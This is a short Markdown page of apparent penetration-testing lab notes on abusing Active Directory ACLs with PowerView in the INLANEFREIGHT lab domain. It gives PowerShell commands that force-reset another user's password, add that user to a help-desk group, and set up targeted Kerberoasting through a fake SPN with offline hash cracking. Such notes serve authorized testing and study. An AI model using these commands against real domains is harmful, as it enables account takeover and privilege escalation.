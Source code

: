 * * *

## ACL Abuse Tactics
```powershell
PS > Import-Module .\PowerView.ps1
```

### ForceChangePassword
So, first, we must authenticate as user1 because he can force change the password of the user user2. We can start by opening a PowerShell console and authenticating as the user1 user. Otherwise, we could skip this step if we were already running as this user. To do this, we can create a PSCredential object.

```powershell
# Creating a PSCredential Object
PS > $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS > $Cred = New-Object System.Management.Automation.PSCredential('<INLANEFREIGHT>\<user1>', $SecPassword) 

# Creating a SecureString Object**
PS > $user2Password = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force

# Changing the User's Password
PS > Set-DomainUserPassword -Identity user2 -AccountPassword $user2Password -Credential $Cred -Verbose
```
We can see that the command completed successfully, changing the password for the target user while using the credentials we specified for the user1 that we control. 

### Add-DomainGroupMember
```powershell
# Creating a SecureString Object using user2
PS > $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS > $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\user', $SecPassword) 

# Adding user2 to the Help Desk Level 1 Group
PS > Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'user2' -Credential $Cred2 -Verbose
PS > Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members

# Confirming user2 was Added to the Group**
PS > Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over the user3. Now, let's say that our client permitted us to change the password of the user2, but the user3 is an admin account that cannot be interrupted. Since we have GenericAll rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's servicePrincipalName attribute to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.
